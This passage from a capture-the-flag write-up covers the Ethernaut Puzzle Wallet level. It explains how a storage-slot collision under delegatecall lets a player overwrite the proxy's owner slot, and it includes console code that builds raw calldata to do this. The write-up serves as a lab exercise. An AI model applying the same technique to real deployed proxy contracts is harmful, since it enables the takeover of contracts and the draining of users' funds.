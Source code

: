 To do this, we will have make `owner` store our wallet address for its value.

But don't forget!&#x20;

Everything is done via `delegatecall`.

So when addToWhitelist is called, it will refer to `slot0` of the **`PuzzleProxy`** when trying to access `owner`.

```solidity
function proposeNewAdmin(address _newAdmin) external {
    pendingAdmin = _newAdmin;
}
```

We can do this by calling this contract.

We just have to solve this in reverse order.

1\) update `slot0` to be `player` (our wallet address)

2\) add player to `whitelisted`

3\) reduce the balance of the contract to `0`

4\) update `slot1`&#x20;

### 1. Updating slot0

```javascript
// this will just pad 0s on the left to make it 32 bytes
> const playerEncoded = web3.eth.abi.encodeParameter("address", player); // 0x00...0<player address>
// '0x00000000000000000000000034b4ab0479d10fdbaa3b52c8371c7b1be5c73bb7'

> const proposeNewAdminSelector = web3.utils.keccak256("proposeNewAdmin(address)").substr(0, 10);
// '0xa6376746'

// we get rid of '0x' from playerEncoded
> await contract.sendTransaction({ data: proposeNewAdminSelector + playerEncoded.substr(2) });
```

We are sending transaction to **PuzzleProxy** with calldata:

```javascript
'0xa637674600000000000000000000000034b4ab0479d10fdbaa3b52c8371c7b1be5c73bb7'
```

If you wonder why we can't simply do like \
`await contract.proposeNewAdmin(player)`, see [here](https://stackoverflow.com/questions/73249245/ethernaut-level-24-puzzle-wallet-to-which-contract-the-wallet-object-on-the-b).

Simply speaking, it's because they created the Web3 contract object with the ABI of the logic contract(**`PuzzleWallet`**) with the address of the proxy contract(**`PuzzleProxy`**).

So the instance only recognizes code from **`PuzzleWallet`** (but in the context of **`PuzzleProxy`**).

So to check if slot0 is well updated, we should read the value of `owner`.\
(Again, the created instance does not recognize `pendingAdmin`)
